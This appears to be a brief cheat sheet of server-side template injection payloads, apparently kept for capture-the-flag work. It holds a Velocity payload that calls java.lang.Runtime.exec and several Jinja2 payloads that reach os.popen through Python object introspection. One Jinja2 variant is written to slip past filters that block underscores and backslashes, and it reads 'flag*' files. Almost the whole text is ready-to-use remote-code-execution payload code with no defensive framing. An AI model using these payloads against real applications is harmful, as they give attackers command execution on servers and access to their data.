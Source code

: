 #### Velocity template Langauge payload:

```
#set($engine="string")#set($run=$engine.getClass().forName("java.lang.Runtime"))#set($runtime=$run.getRuntime())#set($proc=$runtime.exec("ls -al"))#set($null=$proc.waitFor())#set($istr=$proc.getInputStream())#set($chr=$engine.getClass().forName("java.lang.Character"))#set($output="")#set($string=$engine.getClass().forName("java.lang.String"))#foreach($i in [1..$istr.available()])#set($output=$output.concat($string.valueOf($chr.toChars($istr.read()))))#end$output
```

#### Jinja payload <i>(Python)</i> : 

```py
 #normal payload
 {{ ''.__class__.__base__.__subclasses__()[103].__init__.__globals__['sys'].modules['os'].popen("ls").read() }}

 #payload without '_' and without '\' 
{% set c='%c%c'|format(95,95) %}  {{ dict.mro()[-1] | attr(c~'subclasses'~c)() | attr(c~'getitem'~c)(183) |attr(c~'init'~c) | attr(c~'globals'~c) | attr(c~'getitem'~c)('sys') | attr('modules') | attr(c~'getitem'~c)('os') | attr('popen')('cat flag*') | attr('read')() }}

 #not sure if it works but i found this.
 {{ url_for.__globals__.os.popen("ls").read() }}
 ```

![image](https://github.com/user-attachments/assets/d812c5f3-2f59-476a-a1e8-6a7ae978695a)

